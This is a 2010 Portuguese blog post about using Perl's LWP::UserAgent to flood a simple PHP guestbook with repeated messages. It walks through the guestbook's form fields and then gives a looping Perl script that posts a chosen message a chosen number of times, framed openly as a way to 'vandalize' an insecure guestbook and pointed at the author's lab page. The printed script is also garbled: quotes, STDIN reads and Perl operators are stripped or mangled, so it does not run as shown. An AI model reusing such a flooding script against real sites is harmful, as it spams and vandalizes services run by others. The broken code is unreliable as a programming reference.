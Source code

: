 ```yaml
---
layout: default
title: Floodando mural com Perl
date: 2010-11-29 15:32
author: obrerodrigues
comments: true
categories: [Hacking]
---
```


Porra, cada vez mais que eu uso perl, mas vejo o quanto de coisas que dá pra se fazer usando o mesmo, final de semana passado, começei a ver o que daria pra fazer com sites usando perl.

Usando a <a href="http://search.cpan.org/~gaas/libwww-perl-5.837/lib/LWP/UserAgent.pm" target="_blank">LWP::UserAgent</a>, o céu é o limite :P

Vou exemplificar aqui nesse post como esquematizar o ataque, e como usar o código, resolvi fazer isso depois de ver que matérias sobre Perl em português não são muito comuns ...

Basta saber o básico de HTML, saber também como as requisições funcionam, e um pouco de Perl pra entender o post.

Vou usar esse código aqui para simular um ataque: <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt</a>

É um mural de recados escrito em PHP, e que não precisa de um banco de dados, os recados são salvos num arquivo txt, o código é simples, vulnerável a XSS, mas isso não vem ao caso, ele só vai nos servir de exemplo, pra mostrar como a coisa funciona.

Primeiramente você deve colocar o mural hospedado em algum lugar, você pode instalar um servidor web com o PHP fácil no seu próprio computador, existem pacotes como o <a href="http://www.codigofonte.net/scripts/php/mural/1381_mural-com-bd-em-txt" target="_blank">XAMPP</a>, ou uma maneira mais fácil é você criar uma conta em algum desses servidores de hospedagem gratuitos com suporte a PHP que existem por ai a fora, sinceramente gosto muito do <a href="http://www.freewebhostingarea.com/" target="_blank">http://www.freewebhostingarea.com/</a>.

Caso queira, você pode usar o meu lab pessoal: <a href="http://ripper.eu5.org/labs/uploads/mural/index.php" target="_blank">http://ripper.eu5.org/labs/uploads/mural/index.php</a>, agora não garanto que esteja on-line pra sempre.

Ok, agora temos o mural funcionando, recados podem ser mandados para o site, basta pôr um nome, e-mail e a mensagem desejada...

Mas e se quisermos vandalizar o mural inseguro? Existem várias maneiras, mas vou te dizer como fazer isso com o perl.

Analizando o código, achei a seguinte linha interessante:
<p id="line1">FORM name=email2 onsubmit="return checkemail()" action=enviar_msg.php?a=confirma method=post
São os paramêtros do form que envia a mensagem para o mural de recados, vou destacar logo o que importa, o paramêtro "action" e o "method", nos diz que usando o método POST o form envia os dados para a página "enviar_msg.php?a=confirma".

Sim, mas e dai?

Com o perl podemos enviar requisições para o servidor, é o que vamos fazer.

Analisando ainda mais o código, observa-se que existem três inputs no form:

INPUT id=nome

INPUT id=email

INPUT id=message

O que nos importa são as ID's, é o que vai se usar no código perl para enviar o post.

Ok, agora sabemos que o form envia para a página enviar_msg.php junto com o paramêtro a=confirma, o nome, email e message.

Agora é que entra o perl, não vou explicar muito porque não tô afim, mas se você provavelmente entendeu até aqui, vai entender o código:

```

#!/usr/bin/perl

use LWP::UserAgent;

print Floodando com perl\n;

print Coloque sua mensagem: ;
my $msg = STDIN; chomp $msg;

print \nColoque o numero de vezes que a msg sera enviada: ;
my $count = STDIN; chomp $count;
my $begin = 1;

while ($begin = $count) {

$U=http://ripper.eu5.org/labs/uploads/mural/enviar_msg.php?a=confirma;
$lwp=LWP::UserAgent-new;
$res=$lwp  -post($U,[
'nome'     ='Brenn0',
'email'   ='whatever@gmail.com',
'mensagem' =$msg . $begin,
]);

$begin++;
print Mensagem numero  . $begin .  enviada...\n;
}

print \nFlood Completo!\n;
print Coded By Brenn0 (:;
exit 0;

# http://brenn0.wordpress.com

```

Básico, 32 linhas de código contando as que ficaram em branco, para um mal programador como eu, até que ficou organizadinho.

Atente para a parte do código onde se inicia o While e até onde ele termina, é ali que mora a parte legal, é onde se monta e se envia a requisição, a graça disso não é sair flodando todo e qualquer mural que se achar por ai, mas o poder que o perl dá em fazer algumas coisas, como automatizar tarefas repetitivas, claro que poderiamos ter feito isso de outras maneiras, como usando a extensão Imacs do firefox, mas nem sempre o mais fácil é mais legal :P

Eeee, fim de post, depois de um longo periodo de tempo sem nada, pensando bem não faz lá muito tempo, o mês é que foi longo, o cefet continua tentando me matar, e eu também continuo tentando o mesmo ...

Enfim, sono, preguiça e estudos, alcool, ociosidade, insanidade, são uma boa combinação (:

